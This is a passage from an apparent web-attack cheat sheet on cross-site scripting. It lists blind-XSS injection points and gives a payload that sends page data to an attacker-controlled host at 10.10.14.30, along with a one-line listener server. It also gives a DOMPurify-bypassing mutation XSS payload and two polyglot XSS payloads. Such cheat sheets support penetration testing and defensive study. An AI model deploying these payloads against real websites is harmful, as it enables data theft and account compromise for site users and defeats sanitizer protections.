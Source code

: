 - Contact forms
- Ticket support
- Referer Header
  - Custom Site Analytics
  - Administrative Panel logs
- User Agent
  - Custom Site Analytics
  - Administrative Panel logs
- Comment Box
  - Administrative Panel

### Tips

You can use a [Data grabber for XSS](#data-grabber-for-xss) and a one-line HTTP server to confirm the existence of a blind XSS before deploying a heavy blind-XSS testing tool.

Eg. payload

```html
<script>document.location='http://10.10.14.30:8080/XSS/grabber.php?c='+document.domain</script>
```

Eg. one-line HTTP server:

```
$ ruby -run -ehttpd . -p8080
```

## Mutated XSS

Use browsers quirks to recreate some HTML tags when it is inside an `element.innerHTML`.

Mutated XSS from Masato Kinugawa, used against DOMPurify component on Google Search. Technical blogposts available at https://www.acunetix.com/blog/web-security-zone/mutation-xss-in-google-search/ and https://research.securitum.com/dompurify-bypass-using-mxss/.

```javascript
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```

## Polyglot XSS

Polyglot XSS - 0xsobky

```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0D%0A//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

Polyglot XSS - Ashar Javed

```javascript
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

